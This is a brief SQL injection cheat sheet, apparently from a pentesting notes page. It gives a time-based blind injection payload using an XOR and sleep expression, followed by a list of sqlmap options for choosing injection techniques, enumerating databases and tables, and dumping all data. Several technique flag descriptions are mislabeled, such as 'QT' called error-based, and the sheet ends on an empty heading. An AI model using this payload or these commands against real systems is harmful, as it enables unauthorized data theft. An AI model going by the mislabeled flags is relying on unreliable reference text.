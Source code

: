     "0"XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR"Z"

---

## Sqlmap   

### General syntax: 
  
      sqlmap -u [target_URL] -p [parameter] [option]

### Basic options:
    
        --batch: Non-interactive mode
    
        --data: Used when submitting information via POST
    
        --cookie: Submit a cookie along with the request
    
        --threads: Number of threads to use

### Injection techniques: 
    
        --technique=BT: Blind boolean-based
    
        --technique=QT: Error-based
    
        --technique=EU: Error-based union query

### Enumeration options:
    
        --tables: List all database tables
    
        --columns: List all columns from specified database tables
    
        --dbs: List all databases
    
        --hostname: Display hostname of DBMS

### Database fingerprinting:
    
        --fingerprint: Fingerprint the DBMS

### Dumping options:
    
        --dump: Dump all data from a specific database table 
    
        --dump-all: Dump all databases

### Miscellaneous options:
    
        --flush-session: Flush session information
    
        --answers: Specify yes/no for questions
    
        --update: Update sqlmap


### Sqlmap Commands

---